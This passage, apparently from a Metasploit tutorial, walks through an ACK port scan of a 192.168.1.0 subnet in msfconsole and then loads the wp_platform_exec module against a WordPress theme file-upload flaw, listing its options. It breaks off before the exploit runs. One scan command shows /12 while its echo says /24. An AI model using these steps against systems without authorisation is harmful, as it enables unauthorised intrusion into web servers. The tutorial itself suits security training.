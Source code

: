 ```
   THREADS    1                yes       The number of concurrent threads (max one per host)
   TIMEOUT    500              yes       The reply read timeout in milliseconds

```

**Now we have to set required things to scan our target**

```

msf5 auxiliary(scanner/portscan/ack) > set INTERFACE eth0
INTERFACE => eth0
msf5 auxiliary(scanner/portscan/ack) > set PORTS 80
PORTS => 80
msf5 auxiliary(scanner/portscan/ack) > set RHOSTS 192.168.1.0/12
RHOSTS => 192.168.1.0/24
msf5 auxiliary(scanner/portscan/ack) > set THREADS 50
THREADS => 50
msf5 auxiliary(scanner/portscan/ack) > run

```

Now this will give you scan result


**Target exploitation with metasploit**


Run 'msfconsole'

```
# msfconsole

msf5 > show exploits
```

**This will list all the exploits in the database, choose any to see the usage.**

For example, I found a WordPress vulnerability in a Unix server, called platform Theme File Upload Vulnerability.

```
msf5 > use exploit/unix/webapp/wp_platform_exec
msf5 exploit(unix/webapp/wp_platform_exec) > show options

```
```
msf5 exploit(unix/webapp/wp_platform_exec) > show options

Module options (exploit/unix/webapp/wp_platform_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.35      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   platform < 1.4.4, platform pro < 1.6.2

```
